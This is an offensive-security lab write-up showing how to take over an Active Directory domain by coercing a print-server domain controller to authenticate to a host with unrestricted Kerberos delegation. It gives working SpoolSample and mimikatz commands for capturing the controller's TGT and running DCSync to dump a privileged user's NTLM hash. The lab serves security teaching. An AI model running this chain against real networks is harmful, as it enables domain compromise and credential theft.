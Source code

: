 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RCP API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

We can check if a spool service is running on a remote host like so:

```text
ls \\dc01\pipe\spoolss
```

![](../../.gitbook/assets/image%20%28250%29.png)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](../../.gitbook/assets/image%20%28445%29.png)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server` \(DC with spoolss running on it\):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}

